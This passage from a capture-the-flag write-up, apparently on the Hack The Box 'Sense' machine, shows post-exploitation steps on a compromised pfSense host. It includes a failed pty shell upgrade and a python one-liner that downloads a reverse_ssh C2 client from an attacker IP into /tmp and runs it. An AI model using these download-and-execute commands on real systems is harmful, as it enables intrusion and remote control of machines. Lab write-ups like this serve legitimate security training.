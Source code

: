 ```bash
python3: not found

# python -c 'import pty; pty.spawn("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/pbi/open-vm-tools-nox11-amd64/lib/python2.7/pty.py", line 167, in spawn
    os.execlp(argv[0], *argv)
  File "/usr/pbi/open-vm-tools-nox11-amd64/lib/python2.7/os.py", line 327, in execlp
    execvp(file, args)
  File "/usr/pbi/open-vm-tools-nox11-amd64/lib/python2.7/os.py", line 344, in execvp
    _execvpe(file, args)
  File "/usr/pbi/open-vm-tools-nox11-amd64/lib/python2.7/os.py", line 368, in _execvpe
    func(file, *argrest)
OSError: [Errno 2] No such file or directory
```

The two main tricks failed, I can't even write ssh keys because it does not have ssh opened

And there was even no `wget` and `curl`, `nc` was a special one for openbsd system

I'll use the [python download trick from **gtfobins**](https://gtfobins.github.io/gtfobins/python/#file-download)

> **Filetransfer CheatSheet**
> > https://github.com/0xsyr0/OSCP#file-transfer
{: .prompt-tip }

Host **reverse_ssh** client

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense/www]
└─$ ln -s /opt/sectools/c2/reverse_ssh/bin/client

┌──(bravosec㉿fsociety)-[~/htb/Sense/www]
└─$ python -m http.server 80
```

```bash
export URL=http://10.10.16.13/client
export LFILE=/tmp/client
python -c 'import sys; from os import environ as e;import urllib as r;r.urlretrieve(e["URL"], e["LFILE"])'
chmod +x /tmp/client
/tmp/client
```

Failed to execute

![](/assets/obsidian/0d72180e2ee3e59ee5a49b856c3d0a6d.png)
